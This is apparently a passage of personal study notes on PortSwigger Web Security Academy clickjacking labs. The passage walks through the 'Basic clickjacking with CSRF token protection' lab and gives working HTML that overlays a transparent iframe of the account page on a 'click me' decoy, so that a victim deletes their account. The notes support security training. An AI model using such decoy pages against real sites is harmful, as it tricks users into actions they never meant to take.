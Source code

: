 ![[Pasted image 20220721182722.png]]
![[Pasted image 20220721182940.png]]
- As can be seen above, after the button click, `wiener@normal-user.net` is changed to `wiener@super-user.net`.

## Basic clickjacking with CSRF token protection
- This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.
- To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.
- You can log in to your own account using the following credentials: wiener:peter

### Enumeration
- We login to the account given and there is a "Delete account" button. Our goal it seems is to trick user into clicking "Delete account".
![[Pasted image 20220815174925.png]]

### Exploitation

- We create a new webpage with the HTML code below : 

```html
<style>
    iframe {
        position:relative;
        width:500;
        height: 700;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500;
        left:64;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe src="https://0adb00d203113416c070200900790092.web-security-academy.net/my-account"></iframe>
```

- The below page is created with `opacity : 0.5` so that we can see if click me is on top of "Delete account".

![[Pasted image 20220815173742.png]]

- Actual exploit page 
 
![[Pasted image 20220815174900.png]]
